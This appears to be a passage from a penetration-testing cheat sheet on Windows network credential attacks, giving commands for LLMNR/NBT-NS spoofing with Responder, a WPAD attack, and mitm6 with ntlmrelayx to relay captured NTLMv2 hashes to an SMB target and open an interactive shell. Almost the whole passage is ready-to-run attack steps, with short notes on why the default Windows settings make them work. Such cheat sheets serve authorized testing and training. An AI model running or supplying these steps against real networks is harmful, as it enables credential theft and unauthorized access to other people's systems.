 
#### [](#header-4) LLMNR / NBT-NS Spoofing

```powershell
#Responder to Steal Creds

git clone https://github.com/SpiderLabs/Responder.git python Responder.py -i local-ip -I eth0


LLMNR and NBT-NS is usually on by default and there purpose is to act as a fallback to DNS. i/e if you search \\HRServer\ but it dosent exist, Windows (by default) will send out a LLMNR broadcast across the network. By using Responder we can respond to these broadcasts and say something like

'Yeah I'm HRServer, authenticate to me and I will get a NTLMv2 hash which I can crack or relay. More on relaying below'
```



#### [](#header-4) Responder WPAD Attack

```powershell
responder -I eth0 wpad

By default, Windows is configured to search for a Web Proxy Auto-Discovery file when using the internet

Go to internet explorer and search for Google which automatically searches for a WPAD file... 

Then take NTLMv2 hash and NTLM Relay it or send to cracking rig. 
```



#### [](#header-4) mitm6

```powershell
#Use when WPAD attack is not working, this uses IPv6 and DNS to relay creds to a target. 

By default IPV6 should be enabled. 
git clone https://github.com/fox-it/mitm6.git 
cd /opt/tools/mitm6
pip install .

mitm6 -d m0chanAD.local

Now the vuln occurs, Windows prefers IPV6 over IPv4 meaning DNS = controlled by attacker. 

ntlmrelayx.py -wh webserverhostingwpad:80 -t smb://TARGETIP/ -i

-i opens an interactive shell.

Shout out to hausec for this super nice tip.

```
